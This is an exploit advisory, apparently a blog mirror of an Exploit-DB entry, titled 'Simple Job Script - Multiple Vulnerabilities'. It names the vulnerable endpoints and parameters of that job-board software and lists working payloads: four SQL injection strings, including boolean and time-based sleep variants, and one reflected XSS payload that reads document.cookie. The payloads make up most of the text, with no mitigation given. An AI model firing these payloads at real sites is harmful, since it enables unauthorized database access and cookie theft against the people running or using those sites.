 ```yaml
---
layout:     post
title:      "Simple Job Script - Multiple Vulnerabilities"
date:       2019-03-26 12:05
author:     "Ahmet Ümit BAYRAM"
category:   exploit
tags:       [sql, sqli, sql injection, exploit-db]
---
```


# Exploit Title: Simple Job Script - Multiple Vulnerabilities
# Date: 26.03.2019
# Exploit Author: Ahmet Ümit BAYRAM
# Vendor Homepage: https://simplejobscript.com/
# Download Link:
https://github.com/niteosoft/simplejobscript/archive/master.zip
# Demo Site: https://demo.simplejobscript.com
# Version: Lastest
# Tested on: Kali Linux
# CVE: N/A

----- PoC 1: SQLi -----

Request: http://localhost/[PATH]/searched
Vulnerable Parameter: landing_location (POST)
Payload:
landing_location=-1%20OR%203*2*1=6%20AND%20000405=000405%20--%20&landing_title=test



----- PoC 2: SQLi -----

Request: http://localhost/[PATH]/get_job_applications_ajax.php
Vulnerable Parameter: job_id (POST)
Payload: job_id=-1%20OR%203*2*1=6%20AND%20000615=000615%20--%20


----- PoC 3: SQLi -----

Request: http://localhost/[PATH]/register-recruiters
Vulnerable Parameter: employerid (POST)
Payload: if(now()=sysdate(),sleep(0),0)


----- PoC 4: SQLi -----

Request: http://localhost/[PATH]/delete_application_ajax.php
Vulnerable Parameter: app_id (POST)
Payload:
app_id=(select(0)from(select(sleep(0)))v)/*'%2B(select(0)from(select(sleep(0)))v)%2B'"%2B(select(0)from(select(sleep(0)))v)%2B"*/


----- PoC 5: XSS -----

Request:
http://localhost/[PATH]/jobs?_=1&job_type_value[]=Full%20time&srch_location_val[]=fulltime_ctype
Vulnerable Parameter: job_type_value[] (GET)
Payload: "><svg+onload%3Dalert(document.cookie)>

